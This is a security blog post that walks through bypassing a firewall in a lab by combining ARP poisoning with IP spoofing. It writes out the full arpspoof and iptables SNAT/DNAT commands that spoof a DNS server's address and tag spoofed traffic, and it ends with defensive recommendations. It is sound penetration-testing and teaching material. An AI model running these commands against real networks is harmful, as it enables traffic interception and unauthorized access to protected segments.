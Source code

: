 ```yaml
---
date:   2019-10-28 16:00:00 +0200
tags: [posts]
excerpt: "A specific case of bypassing a firewall"
title:  "Combining ARP poisoning and IP spoofing to bypass firewalls"
---
```

# Introduction  
---
Recently a colleague of mine and I had to test if there was a way to gain access to a specific network segment (let's call it SecNet) from another network (BadNet). Of course the most basic attempts with ping and port scanning failed, because the firewall blocked everything that came from our segment, so we had to find a way to bypass the firewall. 

One of the devices available in BadNet was a DNS server and this server was configured as the primary DNS in the DHCP settings. We also confirmed that other networks also used this server as their DNS, thus our hypothesis was that maybe the devices from SecNet also used the same server as their DNS. If that was the case and the firewall wasn't configured to be restrictive enough, then the DNS server should have access to the SecNet network.

To confirm this we used ARP poisoning attack to do a man-in-the-middle (MITM) between the DNS and the gateway to see if traffic from SecNet reaches the DNS in BadNet.  
It did. 

Then we had to find a way to exploit this in order to reach SecNet. If we only spoofed our IP address, the return traffic would've been routed to the DNS server and we wouldn't be able to receieve it. If we poisoned the ARP table of the gateway and pretended that our host was the DNS server, then the hosts from other networks wouldn't be able to reach it and with this we would introduce a denial of service, which was not acceptable. Exploiting the server was out of scope. The only solution was to spoof our IP while simultaneously doing MITM as this would give us the opportunity to receive the return traffic of the spoofed requests. 

Because we faced some problems implementing such attack and Google wasn't helpful in finding solutions to those problems, I decided to explain what we did in this blog post.

Disclaimer:  
The technique for marking the spoofed packets is not my idea. I think I saw it in a tool for bypassing 802.1x, but I can't remember which one.

# Network Topology  
---
The network topology of my virtualized environment for the demonstration.

SecNet: 172.16.3.0/24  
SecNet Sensitive Host: 172.16.3.10  
BadNet: 172.16.2.0/24  
BadNet DNS server: 172.16.2.10  
BadNet Hacker: 172.16.2.20  
Firewall: 172.16.2.2  
Firewall: 172.16.3.2   

![net_diag_1.png](https://idafchev.github.io/blog/assets/images/firewall_bypass/net_diag_1.png){: .align-center}  

In this environment the firewall is a Linux VM with a simple iptables rule which drops everything except traffic to and from the DNS server (172.16.2.10). 
Let's test it with a simple ping:  
![ping_test.PNG](https://idafchev.github.io/blog/assets/images/firewall_bypass/ping_test.PNG){: .align-center}  

# The Attack  
---
There are many guides which explain how to achieve MITM with ARP poisoning, so I won't spend much time on this.
One of the first things you should do is enable routing on your host, otherwise the packets won't be redirected to the victim.
This is easily achieved with the following command:

```bash
sysctl net.ipv4.ip_forward=1
```

For the actual ARP poisoning I used the arpspoof tool:
```bash
arpspoof -i eth0 -t 172.16.2.10 -r 172.16.2.2

# -i Interface
# -t Target IP
# -r Gateway IP
```

With this we've achieved MITM. The diagram below shows how the traffic flows from source to destination:  
![net_diag_2.png](https://idafchev.github.io/blog/assets/images/firewall_bypass/net_diag_2.png){: .align-center}  

Right now if we spoof our IP and try to access SecNet the return traffic will be routed back to the DNS server which in turn will respond with TCP RST and terminate the session. This behavior is shown below:  
![net_diag_3.png](https://idafchev.github.io/blog/assets/images/firewall_bypass/net_diag_3.png){: .align-center}  

To solve this problem we need to
* Tag our spoofed traffic somehow
* Don't route the response of the tagged (spoofed) traffic
* Accept the tagged traffic as if it was destined to the attacker's host

To tag the spoofed packets we could use the source tcp ports. Windows and Linux use specific port ranges for the source ports when initiating a new connection.
For Windows this can be found with the command:
```
netsh int ipv4 show dynamicport tcp
```

On my windows 10 machine the output from the above command is:
```
Protocol tcp Dynamic Port Range
---------------------------------
Start Port      : 49152
Number of Ports : 16384
```

Which means that in Windows 10 the source port range is `49152 - 65536`.


On linux you can check with:
```bash
sysctl net.ipv4.ip_local_port_range
```

On my Kali the result is:
```
net.ipv4.ip_local_port_range = 32768	60999
```

We can use source ports from a range which is not used by our target to tag our spoofed traffic. If it's a windows host, we can use ports outside the range `49152 - 65536` and if it's a Linux host - source ports outside the `32768 - 60999` range,

If we don't know the OS of the target, we can use a source port range different than the combination of both ranges. In this demonstration I'll assume that we don't know the OS of the target.

1. The IP spoofing of the outgoing packets can be done with iptables and a NAT rule. The NAT rule would also change the source port range.  
2. Another NAT rule would look for a specific destination IP and destination port range in order to identify the incoming packets which are in response to the spoofed traffic. The destination IP will be changed to the local IP of the interface and the port range will be restored. That way the response to our spoofed traffic will be routed to the local host.  


The diagram below shows how traffic is handled by the interface in this configuration:  
![netfilter.png](https://idafchev.github.io/blog/assets/images/firewall_bypass/netfilter.png){: .align-center}  

And the result would be:  
![net_diag_4.png](https://idafchev.github.io/blog/assets/images/firewall_bypass/net_diag_4.png){: .align-center}  

To implement the tagging we need to choose the source port range first. Because I assume the OS of the target is unknown, then the ports should differ from both the Windows and Linux ranges. I chose to use `20000 - 30000`.
Because this range has different size (`10000`) than the port range of my Kali (`28231`) I wasn't sure if this could lead to problems, so I also changed the source port range of the attacker host from `32768 - 60999` to `40000 - 50000`.

The following commands are everything you need to accomplish all of this.
```bash
# Enable routing
sysctl net.ipv4.ip_forward=1

# Change the source port range of the attacker host
echo "40000 50000" > /proc/sys/net/ipv4/ip_local_port_range

# The outgoing packets sourced by the attacker's host (their source 
# IP is 172.16.2.20) have their source IP changed to the target 
# IP (172.16.2.10) and the source port range moved to another range.
# 
# This basically tags the outgoing traffic by spoofing the IP 
# and modifying the source ports.
iptables -t nat -A POSTROUTING -s 172.16.2.20/32 -o eth0 -p tcp -j SNAT --to-source 172.16.2.10:20000-30000

# Incoming traffic which has the target host as it's destination (172.16.2.10)
# and has destination port in the range of 20000:30000 is changed to the 
# attacker IP (172.16.2.20) and the port range is restored to 40000:50000.
# 
# This basically identifies the response of the spoofed traffic and changes
# it in order to be routed to the attacker's host.
iptables -t nat -A PREROUTING -d 172.16.2.10/32 -i eth0 -p tcp -m tcp --dport 20000:30000 -j DNAT --to-destination 172.16.2.20:40000-50000

# Start the MITM attack
sudo arpspoof -i eth0 -t 172.16.2.10 -r 172.16.2.2
```

Now when we test the connection to the host in the SecNet segment, a successful TCP session is established:  
![arpspoof_test.PNG](https://idafchev.github.io/blog/assets/images/firewall_bypass/arpspoof_test.PNG){: .align-center}  

The firewall is successfully bypassed! This means it's possible to launch port scans and interact with the services in the SecNet segment!

Some recommendations to prevent such attacks are:
* Use Dynamic ARP Inspection to protect from arp poisoning
* Use IP Source Guard to prevent IP spoofing
* Harden your firewall rules and permit only the necessary ports on your firewalls

# References:  
---
[1] [https://superuser.com/questions/1118735/how-are-source-ports-determined-and-how-can-i-force-it-to-use-a-specific-port](https://superuser.com/questions/1118735/how-are-source-ports-determined-and-how-can-i-force-it-to-use-a-specific-port)
